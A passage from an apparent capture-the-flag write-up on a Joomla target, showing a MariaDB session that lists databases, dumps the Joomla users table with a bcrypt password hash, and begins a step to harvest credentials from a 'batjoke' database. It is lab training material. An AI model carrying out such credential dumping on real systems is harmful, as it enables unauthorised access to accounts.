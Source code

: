 		Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

		Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

		MariaDB [(none)]> show databases;
		+--------------------+
		| Database           |
		+--------------------+
		| batjoke            |
		| information_schema |
		| joomla_db          |
		| mysql              |
		| performance_schema |
		+--------------------+
		5 rows in set (0.000 sec)

		MariaDB [(none)]> use joomla_db
		Database changed

		MariaDB [joomla_db]> SELECT username,password from jnqcu_users;
		+----------+--------------------------------------------------------------+
		| username | password                                                     |
		+----------+--------------------------------------------------------------+
		| joomla   | $2y$10$9.svWPvNCg0qoD1mf8NJFe1SHltICeEvVS7alBkG3M3aFoPFge9yu |
		+----------+--------------------------------------------------------------+
		1 row in set (0.001 sec)
		```
		- No new creds
	2. Obtain credentials from `batjoke`
		```
		MariaDB [joomla_db]> use batjoke
		Reading table information for completion of table and column names
		You can turn off this feature to get a quicker startup with -A

		Database changed
		MariaDB [batjoke]> show tables;
		+-------------------+
		| Tables_in_batjoke |
		+-------------------+
		| equipment         |
		| taskforce         |
		+-------------------+
		2 rows in set (0.000 sec)

		MariaDB [batjoke]> select * from equipment;
		Empty set (0.000 sec)
